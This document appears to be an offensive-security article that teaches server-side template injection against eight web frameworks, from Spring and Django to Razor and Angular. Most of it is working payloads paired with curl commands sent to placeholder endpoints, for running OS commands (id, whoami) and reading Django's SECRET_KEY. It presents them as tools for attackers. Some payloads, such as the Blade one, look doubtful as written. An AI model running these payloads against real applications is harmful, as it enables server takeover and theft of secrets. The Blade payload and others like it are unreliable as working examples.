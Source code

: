 ```yaml
---
title: Framework-Specific Attacks in Web Applications
description: Learn to exploit SSTI vulnerabilities in web frameworks like Django,
  Laravel, and Spring Boot.
keywords:
- SSTI
- web frameworks
- Spring Boot
- Django Template Injection
- Laravel Blade Injection
- web application security
- framework-specific attacks
- server-side template injection
- remote code execution
- template engines
---
```


# Framework-Specific Attacks

## Context

The goal of this article is to enable offensive operators to exploit Server-Side Template Injection (SSTI) vulnerabilities within specific web frameworks by utilizing their unique syntax, primitives, and exploitation chains. It is assumed that the reader is familiar with template engines, server-side rendering, web application architecture, and basic SSTI techniques.

## Theory

### Framework-Specific SSTI Primitives

Every web framework typically employs a specific template engine characterized by its unique syntax and execution context. Understanding these nuances is crucial for crafting effective exploitation payloads. The core principle of exploiting SSTI vulnerabilities involves recognizing how a template language provides access to backend objects or functions that can be abused. 

Frameworks might unintentionally expose dangerous objects, methods, or bypasses due to insecure evaluation of templates. This vulnerability model allows attackers to execute arbitrary code or access sensitive information.

### Attack Surface by Framework

To execute a successful attack, it is essential to identify the template engine employed by a web application. This can be accomplished through error messages, leaked source code, or observed behavior. Once identified, an attacker can craft payloads using framework-specific syntax to test for code execution or access to sensitive objects. 

The attack sequence involves escalating from proof-of-concept payloads to full remote code execution or data extraction by exploiting engine-specific features. Mastery of these techniques can enable an attacker to manipulate the application's backend processes effectively.

## Practice

### Spring Boot (Spring Expression Language - SpEL) SSTI Exploitation

- **Payload:**

  ```bash
  ${T(java.lang.Runtime).getRuntime().exec('id')}
  ```

  This payload allows execution of an OS command via SpEL injection.

- **Command Line:**

  ```bash
  curl -d "input=${T(java.lang.Runtime).getRuntime().exec('id')}" http://target/spring-endpoint
  ```

  Execute the crafted payload by sending it to a vulnerable endpoint.

**Outcome:** Achieve OS command execution through SpEL injection.

### Django Template Injection Exploitation

- **Payload:**

  ```python
  {{ settings.SECRET_KEY }}
  ```

  This payload accesses sensitive Django settings through template injection.

- **Command Line:**

  ```bash
  curl -d "input={{ settings.SECRET_KEY }}" http://target/django-endpoint
  ```

  Deliver the payload to a vulnerable Django endpoint.

**Outcome:** Extract sensitive configuration data from Django settings.

### Ruby on Rails ERB Template Injection

- **Payload:**

  ```ruby
  <%= `id` %>
  ```

  This payload executes an OS command using ERB template injection.

- **Command Line:**

  ```bash
  curl -d "input=<%= `id` %>" http://target/rails-endpoint
  ```

  Send the payload to Rails endpoint.

**Outcome:** Execute arbitrary OS commands through ERB injection.

### Laravel Blade Template Injection

- **Payload:**

  ```php
  {{ system('id') }}
  ```

  This payload invokes PHP's `system()` function via Blade template injection.

- **Command Line:**

  ```bash
  curl -d "input={{ system('id') }}" http://target/laravel-endpoint
  ```

  Funnel the payload through the Laravel endpoint.

**Outcome:** Achieve OS command execution via Blade injection.

### Express Handlebars SSTI Exploitation

- **Payload:**

  ```javascript
  {{#with "s" as |string|}}{{#with string.constructor as |cons|}}{{cons.prototype.eval("process.mainModule.require('child_process').execSync('id').toString()")}}{{/with}}{{/with}}
  ```

  This payload abuses Handlebars prototype pollution to execute commands.

- **Command Line:**

  ```bash
  curl -d "input=<payload>" http://target/express-endpoint
  ```

  Dispatch the payload to the target endpoint.

**Outcome:** Execute OS commands via Handlebars SSTI.

### Play Framework Scala Template Injection

- **Payload:**

  ```scala
  @{new java.lang.ProcessBuilder("id").start()}
  ```

  This payload uses Java ProcessBuilder through Scala template injection.

- **Command Line:**

  ```bash
  curl -d "input=@{new java.lang.ProcessBuilder('id').start()}" http://target/play-endpoint
  ```

  Propagate the payload to a vulnerable endpoint.

**Outcome:** Achieve command execution via Play Scala templates.

### ASP.NET Razor Template Injection

- **Payload:**

  ```csharp
  @{System.Diagnostics.Process.Start("cmd.exe", "/c whoami")}
  ```

  Execute Windows commands through Razor template injection.

- **Command Line:**

  ```bash
  curl -d "input=@{System.Diagnostics.Process.Start('cmd.exe','/c whoami')}" http://target/aspnet-endpoint
  ```

  Transmit the payload to the endpoint.

**Outcome:** Execute Windows commands via Razor SSTI.

### Angular Template Injection (Client-Side)

- **Payload:**

  ```javascript
  {{constructor.constructor('alert(document.domain)')()}}
  ```

  Trigger JavaScript execution via Angular template injection.

- **Command Line:**

  ```bash
  curl -d "input={{constructor.constructor('alert(document.domain)')()}}" http://target/angular-endpoint
  ```

  Execute the payload on a vulnerable endpoint.

**Outcome:** Run JavaScript in the client context using Angular template injection.

## Tools

- **curl**
- **Burp Suite**
- **wfuzz**
- **ffuf**
